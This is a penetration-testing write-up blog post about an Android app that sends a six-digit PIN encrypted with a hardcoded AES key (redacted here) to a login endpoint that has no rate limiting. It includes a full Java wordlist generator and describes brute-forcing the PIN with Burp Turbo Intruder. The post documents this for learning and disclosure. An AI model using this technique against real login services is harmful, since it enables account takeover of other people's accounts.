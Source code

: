 ```yaml
---
title: "Android App Pentesting - Hardcoded Encryption Key + No Rate Limiting Lead to Account Takeover"
date: 2020-9-10T20:15:13+07:00
categories:
  - blog
tags:
  - pentest
  - writeup
  - burpsuite
  - hardcoded-key
---
```


So while pentesting an Android application (lets just call it App A), I stumble upon an unlimited login attempt trial -- which was only consist of a phone number and a **six digit** PIN number.. 

At first I thought that this was a really "juicy" target to bruteforce, but that thought immediately disappear once I see the request. 

Request
![request](/assets/images/writeup-1/req.png)

The request is a JSON object consist of fcmToken, phoneNumber, and a pin number which is somehow looks absolutely different from what I sent from the login screen.

My first guess was that the pin parameter is encoded in Base 64 (notice the "==" at the end), but as I decoding it into plain text, it turns out to be gibberish bytes-like text.
```
>>> import base64
>>> base64.b64decode("JTuPDh122ItijR3aw989lg==")
b'%;\x8f\x0e\x1dv\xd8\x8bb\x8d\x1d\xda\xc3\xdf=\x96'
```

My next step was to guess how the pin parameter is getting encrypted. Since the app wasn't obfuscated by either Proguard/Dexguard and I was able to decompile and gain a pretty clear view of the source code, I begin by inspecting the LoginActivity -- which of course responsible for handling the login activity.

`LoginActivity.java`
```
        final String str2 = "0" + this.phoneNumber.getText().toString();
        final String obj = this.pin.getText().toString();
        LoginRequest loginRequest = new LoginRequest(str2, AES.AES256Encrypt(obj), str);
```


It turns out that the pin number is passed into AES256Encrypt method, and -- you guess it from the title -- the key is hardcoded into the method itself.

`AES256Encrypt.java`
```
    public static String AES256Encrypt(String str) {
        String str2;
        try {
            str2 = Base64.encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")), 0);
        } catch (Exception e) {
            PrintStream printStream = System.err;
            printStream.println("Encrypted Err: " + e.getMessage());
            str2 = e.getMessage();
        }
        return str2.replaceAll("\\n", "");
    }    return str2.replaceAll("\\n", "");
```
As you see, there are two  \<REDACTED> parameter in the code above, the first is Initialization Vector, and the other is Encryption/Secret Key itself.

Refering to the code above, I was able to make a script that encrypts the number in range of 100000-999999 to be then used as wordlist for bruteforcing. 

`pin.java`
```
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.io.PrintStream;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import java.io.BufferedWriter;
import java.io.FileWriter;
    
public class Encrypt {
  public static byte[] encrypt(byte[] bArr, byte[] bArr2, byte[] bArr3) throws UnsupportedEncodingException, NoSuchAlgorithmException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
      IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
      SecretKeySpec secretKeySpec = new SecretKeySpec(bArr2, "AES");
      Cipher instance = Cipher.getInstance("AES/CBC/PKCS5Padding");
      instance.init(1, secretKeySpec, ivParameterSpec);
      return instance.doFinal(bArr3);
  }

  public static String AES256Encrypt(String str) {
      String str2;
    try {
        str2 = Base64.getEncoder().encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")));
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
  }

  public static void main(String args[]) {
    for (int i = 100000; i <= 999999; i++){
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("pin.txt", true));  
            writer.append(AES256Encrypt(String.valueOf(i)) + "\n");

            writer.close(); 
        } catch (Exception e){
            System.out.println(e);
        }
      } 
  }
}
```


Lastly, by using Burpsuite's Turbo Intruder and the wordlist generated from the script, I was able to "forcefully" gain access to my own account in relatively short amount of time :)

![intruder](/assets/images/writeup-1/intruder.png)

So remember whenever you find a parameter that doesn't look like what it is supposed to be, try to find and understand the logic behind it. If its encrypted or obfuscated, try to discover which part of the app is encrypting/obfuscating it, and in the case of encryption, there must be a key to encrypt it. 

For example, if the key is implemented over-the-air, you can obtain it by simply hooking the method using Frida, or if its hardcoded in the app, you can just refer to this post to decrypt it.

See ya :)